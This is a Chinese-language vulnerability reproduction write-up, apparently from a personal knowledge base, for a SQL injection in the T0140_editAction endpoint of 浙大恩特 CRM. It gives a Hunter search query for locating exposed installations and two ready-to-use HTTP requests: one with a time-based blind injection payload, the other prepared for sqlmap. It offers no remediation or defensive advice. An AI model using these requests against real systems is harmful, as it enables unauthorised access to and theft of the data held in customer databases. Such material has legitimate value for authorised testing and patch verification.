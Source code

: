 # 浙大恩特CRM T0140_editAction SQL注入漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM是由浙江大学恩智浙大科技有限公司推出的客户关系管理（CRM）系统。该系统旨在帮助企业高效管理客户关系，提升销售业绩，促进市场营销和客户服务的优化。系统支持客户数据分析和报表展示，帮助企业深度挖掘客户数据，提供决策参考。浙大恩特CRM T0140_editAction 存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ <font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM</font>

# <font style="color:rgba(0, 0, 0, 0.9);">三、资产测绘</font>
+ <font style="color:rgba(0, 0, 0, 0.9);">hunter</font>`<font style="color:rgba(0, 0, 0, 0.9);">app.name="浙大恩特 CRM"</font>`
+ <font style="color:rgba(0, 0, 0, 0.9);">特征</font>

![1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a.png](./img/f1wXP9KnVWY_4fwQ/1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a-053269.png)

# <font style="color:rgba(0, 0, 0, 0.9);">四、漏洞复现</font>
```plain
GET /entsoft/T0140_editAction.entweb;.js?method=getdocumentnumFlag&documentnum=1';waitfor+delay+'0:0:5'-- HTTP/1.1
Host: xx.xx.xx.xx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![1700315256759-7e924cad-9094-47c7-a60b-487d3bfd9a64.png](./img/f1wXP9KnVWY_4fwQ/1700315256759-7e924cad-9094-47c7-a60b-487d3bfd9a64-902360.png)

sqlmap

```plain
GET /entsoft/T0140_editAction.entweb;.js?method=getdocumentnumFlag&documentnum=1 HTTP/1.1
Host: xx.xx.xx.xx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![1700315422038-72774add-b8ed-4117-befd-062ca7dd8bbb.png](./img/f1wXP9KnVWY_4fwQ/1700315422038-72774add-b8ed-4117-befd-062ca7dd8bbb-897323.png)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pn2h4x4cw2ylpgty>